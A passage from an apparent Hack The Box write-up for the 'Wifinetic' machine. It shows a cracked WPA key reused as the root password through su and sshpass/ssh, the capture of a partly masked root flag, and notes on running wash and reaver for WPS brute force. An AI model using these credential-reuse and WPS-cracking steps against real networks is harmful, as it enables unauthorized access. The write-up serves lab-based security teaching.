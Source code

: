 Very quickly it is able to crack the WPA password (or pre-shared key (PSK)) for the wireless network.

### su / SSH

This password works as the password for root on the box, either with `su` in an existing session:

```
netadmin@wifinetic:~$ su -
Password:
root@wifinetic:~#

```

Or starting a new SSH session:

```
oxdf@hacky$ sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
...[snip]...
root@wifinetic:~#

```

Either way, I can grab `root.txt`:

```
root@wifinetic:~# cat root.txt
b8e6c359************************

```

## Beyond Root

### Background

Most tutorials showing how to run `reaver` will use something like `wash -i mon0` to get the BSSIDs of the available networks and enumerate is the WPS is locked (which makes the brute force much less likely to work).

`wash` is a tool that comes as part of `reaver`, and is meant to enumerate networks. But it requires the `CAP_NET_RAW` capability, just like `reaver` does.

It is unusual to be performing this attack without root on the attacking box. Typically, this attack is done from attacker controller hardware in local proximity to the WiFi network. But even if someone is doing it from a compromised box, they will need root, as it is _very_ unlikely to find `reaver` sitting around with the necessary capabilities in the real world as is the case here for HTB.

### Running wash as netadmin

With a non-root shell on the box, if I try to run `wash -i mon0` as recommended, and it just hangs:

```
netadmin@wifinetic:~$ wash -i mon0
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------

```
